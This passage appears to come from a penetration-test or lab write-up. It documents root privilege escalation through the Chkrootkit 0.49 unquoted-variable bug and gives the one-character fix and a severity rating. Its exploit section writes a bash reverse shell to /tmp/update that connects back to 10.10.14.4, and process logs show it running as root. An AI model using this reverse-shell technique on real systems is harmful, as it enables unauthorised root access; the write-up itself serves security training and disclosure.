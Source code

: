 ```txt
835a61f3fbbc4eae0d787739b72900b3
```


\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Chkrootkit 0.49 - Local Privilege Escalation

**Vulnerability Explanation:**

The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.
If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.

Reference: *https://www.exploit-db.com/exploits/33899*

**Vulnerability Fix:**

Put quotation marks around the assignment.

```txt
file_port="$file_port $i"
```

**Severity:** Critical


\newpage

**Exploit Code:**

Create reverse shell and store in in a file calle *update* in the */tmp* directory:

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.4/1234 0>&1' > /tmp/update
chmod +x /tmp/update
```

*chkroot* runs again, and we get a shell:

```txt
2022/05/06 18:35:05 CMD: UID=0    PID=32633  | /bin/sh /usr/bin/chkrootkit 
2022/05/06 18:35:05 CMD: UID=0    PID=32639  | grep -E 0.0:2002 |0.0:4156 |0.0:1978 |0.0:1812 |0.0:2015  
2022/05/06 18:35:05 CMD: UID=0    PID=32638  | grep -E ^tcp 
2022/05/06 18:35:05 CMD: UID=0    PID=32637  | /bin/sh /usr/bin/chkrootkit 
2022/05/06 18:35:05 CMD: UID=0    PID=32640  | /bin/bash /tmp/update 
2022/05/06 18:35:05 CMD: UID=0    PID=32641  | /bin/bash /tmp/update 
2022/05/06 18:35:05 CMD: UID=0    PID=32650  | 
2022/05/06 18:35:05 CMD: UID=0    PID=32649  | bash -i
```

![x](9-screenshots-storage/get_root_shell.png)

